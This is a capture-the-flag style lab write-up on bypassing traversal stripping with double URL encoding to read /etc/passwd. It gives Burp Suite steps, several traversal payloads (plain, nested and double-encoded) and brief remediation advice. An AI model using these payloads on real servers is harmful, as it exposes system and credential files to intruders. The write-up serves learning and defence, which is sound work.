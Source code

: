 ## 🧪 Lab: File Path Traversal - Traversal Sequences Stripped with Superfluous URL-decode  
**Level**: Practitioner  
**Date**: June 14, 2025  
**Goal**: Read `/etc/passwd` despite sanitization and double encoding defenses.

---

### 🧰 Tools
- Burp Suite (Repeater / URL Encoder)

---

### 🧭 Steps

1. **Intercept product image URL**  
   - Capture image request from product page:
     ```
     GET /image?filename=218.png
     ```

2. **Send request to Repeater**

3. **Try standard payloads**  
   - Absolute path:
     ```
     /etc/passwd
     ```
   - Sequential path:
     ```
     ../../../etc/passwd
     ```
   - Recursive/obfuscated path:
     ```
     ....//....//....//....//etc/passwd
     ```
   - None of these work due to early input sanitization.

4. **Use clean traversal payload**

```
../../../../etc/passwd
```



5. **URL encode the payload once**  
- Result:
  ```
  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
  ```

6. **URL encode it again (double encoding)**  
- Final payload:
  ```
  %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
  ```

7. **Send the double-encoded payload**  
- Lab is successfully solved and `/etc/passwd` contents are returned.

---

### 💣 Payload

  ```
  %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
  ```
---

### 🔒 Remediation
- Sanitize and validate user input server-side.
- Apply **deep decoding** detection to identify malicious inputs.
- Prevent double-encoded payloads from being parsed into dangerous paths.
- Avoid exposing URLs for internal file access.

---